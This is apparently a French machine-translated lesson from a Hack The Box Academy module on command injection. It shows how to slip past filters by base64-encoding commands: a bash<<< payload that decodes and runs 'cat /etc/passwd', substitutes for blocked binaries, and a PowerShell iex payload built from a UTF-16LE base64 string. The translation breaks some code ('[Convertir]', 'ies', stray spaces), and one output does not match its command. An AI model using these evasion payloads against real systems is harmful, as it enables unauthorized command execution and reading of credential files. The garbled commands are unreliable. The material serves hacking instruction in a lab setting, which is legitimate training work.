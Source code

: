 Burp POST Demande

```
dsgsec@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```

Comme nous pouvons le voir, la commande ci-dessus exécute parfaitement la commande. Nous n'avons inclus aucun caractère filtré et évité les caractères encodés susceptibles d'entraîner l'échec de l'exécution de la commande.

Conseil : Notez que nous utilisons `<<<` pour éviter d'utiliser un tube `|`, qui est un caractère filtré.

Nous pouvons maintenant utiliser cette commande (une fois que nous avons remplacé les espaces) pour exécuter la même commande via l'injection de commande :

#### Burp POST Demande

![Commandes de filtrage](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_6.jpg)

Même si certaines commandes étaient filtrées, comme `bash` ou `base64`, nous pourrions contourner ce filtre avec les techniques dont nous avons parlé dans la section précédente (par exemple, l'insertion de caractères), ou utiliser d'autres alternatives comme `sh` pour l'exécution de la commande et ` openssl` pour le décodage b64 ou `xxd` pour le décodage hexadécimal.

Nous utilisons également la même technique avec Windows. Tout d'abord, nous devons encoder notre chaîne en base64, comme suit :

Burp POST Demande

```
PS C:\htb> [Convertir] ::ToBase64String([System.Text.Encoding] ::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA

```

Nous pouvons également obtenir la même chose sous Linux, mais nous devrions convertir la chaîne `utf-8` en `utf-16` avant de la `base64` , comme suit :

Burp POST Demande

```
dsgsec@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA

```

Enfin, nous pouvons décoder la chaîne b64 et l'exécuter avec un sous-shell PowerShell (`ies "$()"`), comme suit :

Burp POST Demande

```
PS C:\htb> iex "$([System.Text.Encoding] ::Unicode.GetString([System.Convert] ::FromBase64String('dwBoAG8AYQBtAGkA')))"

21a4j

```
